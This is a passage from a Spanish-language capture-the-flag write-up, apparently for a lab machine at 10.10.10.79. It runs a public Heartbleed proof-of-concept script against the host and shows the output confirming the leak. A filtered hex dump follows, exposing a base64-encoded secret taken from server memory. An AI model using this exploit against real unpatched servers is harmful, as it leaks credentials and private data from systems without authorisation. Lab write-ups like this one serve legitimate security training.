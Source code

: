 Observamos que podemos realizar un heartblead attack <https://github.com/mpgn/heartbleed-PoC>

Realizamos varias veces un heartbleedattack de la siguiente forma hasta lograr ver información interesante en una variable $text

```console
python2 heartbleed-exploit.py 10.10.10.79
```

```
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
```

```console
cat out.txt | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
```

```
0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  [...]
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 0A  mV0aGVoeXBlCg==.
  0160: CF 46 B3 A0 61 32 0C 02 CD 52 F4 8A B3 A2 3B C5  .F..a2...R....;.
  0170: B8 A1 08 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
  0200: 39 45 30 37 36 37 32 34 44 33 39 42 33 43 43 33  9E076724D39B3CC3
  [...]
  2060: 71 D4 00 00 00 00 00 00 00 00 00 00 00 00 00 00  q...............
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>